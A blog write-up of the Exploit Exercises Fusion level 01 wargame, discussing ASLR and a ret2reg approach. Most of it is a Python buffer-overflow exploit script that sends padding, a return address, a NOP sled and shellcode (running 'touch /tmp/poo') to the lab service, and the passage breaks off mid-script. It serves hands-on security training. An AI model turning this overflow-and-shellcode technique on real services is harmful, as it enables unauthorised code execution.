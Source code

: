 ```yaml
---
title: "Exploit Exercises - Fusion 01"
date: "2012-07-03T17:19:00-04:00"
comments: true
highlight: "true"
categories:
 - wargames
 - linux
 - fusion
 - aslr
 - hacking
aliases:
 - "/2011/12/exploit-exercises-fusion-01.html"
 - "/2012/04/09/exploit-exercises-fusion-01"
---
```


It's been a while since I last did a write-up about [Exploit Exercises](http://www.exploit-exercises.com). I'm starting to look back at it now, since I have some more free time again. I've now, as I'm sure you can guess by the title of this post, solved level 01. 



So [this level](http://exploit-exercises.com/fusion/level01) is very similar to the first, except that it has ASLR and doesn't tell us where the buffer is on every execution. Even if it did tell us, due to the ASLR, it very well may change every time it's executed.  Based on this information, I went down the road of using a ret2reg method. 

So let's start with the code we used on level 00, but change the comments and port numbers to be more appropriate: 

```
# Fusion Level 01
# http://exploit-exercises.com/fusion/level01
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from sys import exit
from struct import pack
from optparse import OptionParser
from socket import *

def exploit(hostname, port):
        junk = "A"*139
        ret = pack("&lt;I", 0xbffff999)
        nops = "\x90"*100
        shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f\x6f\x00\x57\x53\x89\xe1\xcd\x80"

        s = socket(AF_INET, SOCK_STREAM)
        try:
                print "[*] Connecting to %s on port %s" % (hostname, port)
                s.connect((hostname, port))
        except:
                print "[*] Connection error"
                exit(1)

        print s.recv(1024)
        s.send("GET /" + junk + ret + " HTTP/1.1\n" + nops + shellcode)


if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
```